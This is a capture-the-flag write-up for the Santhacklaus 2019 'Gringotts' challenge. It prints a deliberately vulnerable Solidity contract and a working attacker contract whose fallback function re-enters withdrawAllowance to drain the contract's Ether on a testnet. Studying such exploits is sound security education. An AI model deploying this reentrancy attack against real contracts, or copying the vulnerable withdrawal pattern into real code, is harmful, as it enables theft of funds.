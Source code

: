 # Santhacklaus CTF 2019 - Golden Rush (Level 3 - Gringotts)

This challenge is the 3rd level of the Golden Rush series from the Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz) and the challenge at this location: https://goldenrush.santhacklaus.xyz/level3

## Description

First let's look at the source code for this level:

```solidity
pragma solidity >=0.4.22 <0.6.0;

contract Gringotts {
  mapping (address => uint) public sorceryAllowance;
  uint public allowancePerYear;
  uint public startStudyDate;
  uint public numberOfWithdrawls;
  uint public availableAllowance;
  bool public alreadyWithdrawn;

    constructor() public payable {
        allowancePerYear = msg.value/10;
        startStudyDate = now;
        availableAllowance = msg.value;
    }

    modifier isEligible() {
        require(now>=startStudyDate + numberOfWithdrawls * 365 days);
        alreadyWithdrawn = false;
        _;
    }

    function withdrawAllowance() external isEligible{
        require(alreadyWithdrawn == false);
        if(availableAllowance >= allowancePerYear){
         if (msg.sender.call.value(allowancePerYear)()){
            alreadyWithdrawn = true;
         }
        numberOfWithdrawls = numberOfWithdrawls + 1;
        sorceryAllowance[msg.sender]-= allowancePerYear;
        availableAllowance-=allowancePerYear;
        }
    }

  function donateToSorcery(address sorceryDestination) payable public{
    sorceryAllowance[sorceryDestination] += msg.value;
  }

  function queryCreditOfSorcery(address sorcerySource) view public returns(uint){
    return sorceryAllowance[sorcerySource];
  }
}
```

When we look at the source code, we can see that this Gringotts contract allows us to withdraw a 10th of our total allowance every year. Basically, when we execute the withdrawAllowance function, it checks with the modifier isEligible if we are eligible for our allowance based on the number of years since our startStudyData and the number of withdrawals that we have already made.

If we are actually eligible, we receive the money and only then will the numberOfWithdrawls variable be incremented.

The order in which these actions are done is especially important since it creates the reentrancy vulnerability for us to exploit: if we manage to call withdrawAllowance multiple times before the numberOfWithdrawls is incremented, then we will be able to steal all the money contained in the contract !

## Deploy the instance

Now that we have understood the basis of the vulnerability in this code, we can deploy an new instance of this vulnerable contract by clicking the *New Instance* button on the web page. After a few seconds, we get the address of this contract instance.

![new instance](images/image0.png)

If we go on https://ropsten.etherscan.io and search for this address, we can see that the contract has a balance of 0.01 Ether.

![etherscan1](images/image1.png)

## Exploit

In order to exploit this vulnerability, we will write a contract and deploy it in the blockchain. Here is the contract we are going to use:

```solidity
pragma solidity ^0.4.26;

contract Malicious {

    address private _gringottsAddr = 0x1CC1C2Ad36cAc3cB557eBD91C95121D412D85f1C;
    GringottsInterface public gringotts = GringottsInterface(_gringottsAddr);

    function attack() public {
        gringotts.withdrawAllowance();
    }

    function () public payable {
        gringotts.withdrawAllowance();
    }

}


contract GringottsInterface {

    constructor() public payable {
    }

    modifier isEligible() {
        _;
    }

    function withdrawAllowance() external isEligible {
    }

}
```

The Malicious contract we define has a private parameter _gringottsAddr, which contains the address of the vulnerable Gringotts contract we have previously deployed. Then we declare an instance of GringottsInterface with this address as argument to connect with the Gringotts contract in the blockchain. As you can see, GringottsInterface is declared at the end of our script according to the structure of the Gringotts contract with minimal function definitions.

The function attack in our Malicious contract allows us to execute the function withdrawAllowance function from Gringotts so we can withdraw a 10th of the total allowance. The last function is the one on which relies our attack: it is what we call the fallback function.

The fallback function of a contract is the only function without a name in a contract definition. What is interesting about this function is that it is executed when someone sends you Ether.

So in our case, if we execute again the withdrawAllowance function in our fallback, it means that every time Gringotts sends us money, we will execute withdrawAllowance recursively before the Gringotts contract can increment our numberOfWithdrawls.

## Execution

In order to deploy our malicious contract, we use the web [IDE Remix](https://remix.ethereum.org/). We create our file and then we go in the *Deploy & Run* tab.

Here we will need to change the Environment from the default Javascript VM to Injected Web3 in order for Remix to connect to our MetaMask browser extension.

Once the environment and account synchronized, we can click on the Deploy button and confirm the operation in MetaMask to deploy our malicious contract on the blockchain:

![deployment](images/image2.png)

The deployed contract should show within a few seconds in the Deployed Contract section of Remix. As you can see, Remix allows us to interact directly with the different functions our malicious contract with buttons they generated:

![deployed](images/image3.png)

So we execute our attack function, and once the operation has been validated, we can go back on the Ropsten page of the Gringotts contract and see that we have successfully emptied the balance ! The Gringotts balance has been moved to our Malicious contract balance :D

![emptied](images/image4.png)

We now can go on the challenge page and click the *Check* button to get our flag:

![end](images/image5.png)
